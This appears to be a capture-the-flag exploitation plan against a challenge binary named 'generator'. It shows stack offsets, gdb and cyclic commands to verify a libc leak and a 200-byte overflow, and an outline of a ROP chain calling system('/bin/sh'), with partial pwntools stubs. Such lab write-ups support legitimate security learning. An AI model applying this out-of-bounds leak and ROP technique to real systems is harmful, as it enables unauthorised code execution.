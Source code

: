 **Phase 1: Static Analysis**
```
Memory layout (from Ghidra):
- areas array at: RBP - 0x2600
- Element size: 0x220 bytes
- Return address at: RBP + 0x8

Calculations:
- areas[-3] = RBP - 0x2600 - 0x660
- areas[18] = RBP - 0x2600 + 0x3000 = RBP + 0xA00
- areas[18].title at RBP + 0xA0
- 200 bytes from title reaches RBP + 0x8 ✓
```

**Phase 1.5: MANDATORY Verification**
```bash
# Verify leak offset
gdb ./generator
break *edit_area+offset
run
# Edit area -3, leak height
info proc mappings | grep libc
# Calculate: leaked - actual_base = offset

# My system: offset = 0x1e85c0
# Remote: offset = 0x21aaa0 (from writeup)

# Verify overflow padding
run < <(python3 -c "from pwn import *; print(cyclic(300))")
cyclic -l $rip
# Result: 200 bytes ✓
```

**Phase 2: Strategy**
```
Two-stage exploitation:

Stage 1: Leak libc base
- Edit area[-3]
- Read height field
- Calculate: libc_base = leaked - 0x21aaa0

Stage 2: ROP chain
- Edit area[18]
- Write 200 bytes + ROP to title field
- ROP: ret → pop_rdi → binsh → system
- Exit to trigger
```

**Phase 3: Implementation with Testing**
```python
# Stage 1: Test leak independently
def test_leak():
    p = process('./generator')
    # ... leak logic ...
    leaked = extract()
    base = leaked - 0x21aaa0
    assert base & 0xfff == 0
    p.close()

# Stage 2: Test ROP independently  
def test_rop():
    p = process('./generator')
    libc_base = get_from_proc_maps()
    # ... build and send ROP ...
    p.sendline(b'echo test')
```